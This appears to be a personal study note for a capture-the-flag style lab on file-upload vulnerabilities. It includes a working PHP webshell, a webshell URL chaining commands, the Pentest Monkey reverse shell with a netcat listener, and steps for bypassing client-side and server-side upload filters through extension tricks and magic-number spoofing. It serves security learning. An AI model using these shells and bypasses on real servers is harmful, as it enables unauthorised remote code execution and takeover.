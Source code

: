 be the way to **Remote Code Execution(RCE)**

vulns:
* Overwriting existing files
* Upadloing & executing shells
* Bypassing Client-Side filtering
* Bypassing Server-Side filtering
* Fooling content type validation checks

## Methodology
**enumeration is key**

looking source code to find client-side filtering vuln
scanning with a directory bruteforcer : `sudo apt install gobuster`


## Overwriting Existing Files
when files are uploaded to server, server should ensure the file will not overwrite anything which alreading exists on server.

Common practice:
* Assign file with a new name or random name

### if we don't have overwriting check
we found the website display the image with `images/spaniel.jpg`
![](https://i.imgur.com/9FNtNHG.png)

if we have website like this, we can upload our `spaniel.jpg` to overwriting existing file as attack
![](https://i.imgur.com/89xgC1m.png)

## Remote Code Execution
RCE tends to be uploading a program with same language as back-end like PHP.

basic way:
* webshells
* reverse shells

A fully featured reverse shell is our ideal goal for an attacker.
But webshell may be the only option available.

### Web shells
if we have a website like this
![](https://i.imgur.com/aM0IIQc.png)

we can start with gobuster scan
![](https://i.imgur.com/UEmOcxL.png)

we can found our uploads might go go `/uploads`
and after we uploaded something, we can go to `http://demo.uploadvulns.thm/uploads` to check the result\

![](https://i.imgur.com/cRDq9DL.png)

a simple webshell in PHP:
```php
<?php
    echo system($_GET["cmd"]);
?>
```

and we can use URL parameter to execute some command like this:
`http://demo.uploadvulns.thm/uploads/webshell.php?cmd=id;whoami;ls`
it would execute 
```bash
$ id
$ whoami
$ ls
```

### Reverse Shells
using ubiquitous *Pentest Monkey reverse shell* here

we can get the php payload [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
)

remember to change the ip in `php-reverse-shell.php`
![](https://i.imgur.com/cxGA4Bd.png)


and we start our Netcat listener:
```bash
$ nc -lvnp 1234
```

we upload the reverse shell file and we can navigating to `http://demo.uploadvulns.thm/uploads/shell.php`, starting the shell

finally we get a fully shells in our netcat
![](https://i.imgur.com/vZoBDtm.png)



## Filtering

* client-side filtering would run in our browser.
* Filtering occurs before the file uploaded to the server
* javascript is ubiquitous client-side scripting language.

Filtering kinds:
* Extension Validation : identify the contents of a file
	* Blacklist Extension
	* Whitelist Extension
* File Type Filtering
	* **Multipurpose Internet Mail Extension**(MIME) **validation** : transfer attach over email or HTTP(S)
	* **Magic number validation**
* File Name filtering
* File Length filtering out null byte
* Flie Content filtering

### Client-side
* Turn off javascript in browser
* Intercept & modify incoming page : using Burpsuite before the web page is loaded
* Intercept & modify file upload
* Send the file directly to the upload point : using `curl` to send the POST

remember to use GOBUSTER!


exmaple of whitelist code :
![](https://i.imgur.com/XRDetca.png)

by default BurpSuite would not intercept external js files
remove the `^js$|` in first line in options:
![](https://i.imgur.com/su3Ugwp.png)


reload homepage & Intercept the **response to this request** & forward:
![](https://i.imgur.com/yZDbm47.png)

if the functions are not inline:
Forward to the right script & Intercept the** Response to this request**
![](https://i.imgur.com/siOxfsG.png)

### Server-side
a example of php code to filter out
```php
<?php
    //Get the extension
    $extension = pathinfo($_FILES["fileToUpload"]["name"])["extension"];
    //Check the extension against the blacklist -- .php and .phtml
    switch($extension){
        case "php":
        case "phtml":
        case NULL:
            $uploadFail = True;
            break;
        default:
            $uploadFail = False;
    }
?>
```

* this code search for the last period `.`
* block out `.php` `.phtml`
* most of them only block this 2 extensions, but we can use `.php5` `.phar`
* especially for the system that didn't update the filter configuration


some code may use finding `.jpg` in whitelist function, like this:
```
ACCEPT FILE FROM THE USER -- SAVE FILENAME IN VARIABLE userInput
IF STRING ".jpg" IS IN VARIABLE userInput:
    SAVE THE FILE
ELSE:
    RETURN ERROR MESSAGE
```

### Magic number
magic number is a string of hex digits as identifier of files.
Really effective against a PHP based webserver.

for instance : `FF D8 FF DB` is stand for `.jpg` file
when we use `$file shell.php`, the result depends on magic number
![](https://i.imgur.com/08aKjnW.png)

we can prepend some meanless character in first line:
![](https://i.imgur.com/uuUH0vj.png)

in hex editor(e.g. **Bless**), we can change the meanless character (`"AAAA"`) to `FF D8 FF DB`
![](https://i.imgur.com/IFl9Aa8.png)

sometimes *directory indexing* has been turned off, but we can directly navigate to the uploads like : `/graphics/php-reverse-shell.php`

### Methodology
1. Check the web application built with which language or framework, headers like `server` `xpowered-by` in Burp might gain informations.
2. Found uploading page, looking at source code and checking if any client-side filter
3. First attempt with innocent file upload, check can we access the file we uploaded.
	1. embedded in page?
	2. naming scheme of website?
	3. gobuster `-x` switch can used to look for specific extensions
4. uploading some malicious file